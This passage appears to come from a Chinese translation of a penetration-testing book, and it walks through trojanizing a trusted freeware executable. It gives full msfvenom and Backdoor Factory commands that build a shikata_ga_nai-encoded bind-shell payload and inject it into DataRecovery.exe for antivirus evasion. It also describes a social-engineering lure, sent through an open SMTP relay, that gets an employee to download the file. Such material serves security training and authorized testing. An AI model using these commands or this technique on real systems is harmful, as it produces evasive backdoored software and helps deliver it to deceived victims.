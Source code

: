 最理想的目标二进制文件是轻量级和可移植的——也就是说，它们依赖较少或根本没有依赖。一个需要完整安装的程序并不理想。我们假设客户的员工使用一个轻量级的免费软件来进行数据恢复。在我们的侦察阶段，我们建立了这个员工与公司另一位员工之间的信任关系。我们还发现了一个开放的 SMTP 中继，因此我们将尝试进行社会工程攻击，建议员工下载新版软件。我们会发送一个链接，实际上指向我们的 Kali 主机，拉取被植入木马的文件。

在开始之前，我们将确认目标可执行文件的当前状态，从 AV 社区的信任角度进行验证，确保它被普遍信任。我们正在使用的程序**DataRecovery.exe**，在社区中被认为是可信的。这有助于我们评估我们所实现的规避程度。去拿杯咖啡吧，我们继续。首先，我们将使用**msfvenom**创建我们自己的有效载荷：

# msfvenom --arch x86 --platform windows --payload windows/shell/bind_tcp EXITFUNC=thread LPORT=1066 --encoder x86/shikata_ga_nai --iterations 5 > trojan.bin

![图 12.11 – 使用 msfvenom 生成编码后的有效载荷](img/Figure_12.11_B17616.jpg)

图 12.11 – 使用 msfvenom 生成编码后的有效载荷

你还记得那些丰盛的日子吗？那时我们可以使用 Meterpreter 反向连接 payload。那时候我们富裕，179 千字节的文件都能让我们傲慢地笑一笑。如今，当我们处理可能微小的代码 cave 时，那些日子已经一去不复返了。在这种情况下，我使用了**windows/shell/bind_tcp**，因为它要小得多。这为我们提供了进行多次**x86/shikata_ga_nai**迭代的空间。即使进行了五次迭代，我们最终也只得到了可怜的 482 字节。因此，这个攻击将要求我们主动连接目标，而不是等待对方的反向连接。为了之后分析最终产品，我现在就用**xxd**检查 payload，获取一些原始字节：

![图 12.12 – 使用 xxd 抓取 payload 的原始字节](img/Figure_12.12_B17616.jpg)

图 12.12 – 使用 xxd 抓取 payload 的原始字节

接下来，我们将启动 BDF，并将我们编码后的二进制文件作为用户提供的 shellcode 传入：

# ./backdoor.py --file=DataRecovery.exe --shell=user_supplied_shellcode_threaded --user_shellcode=trojan.bin --output-file=datarec.exe --zero_cert
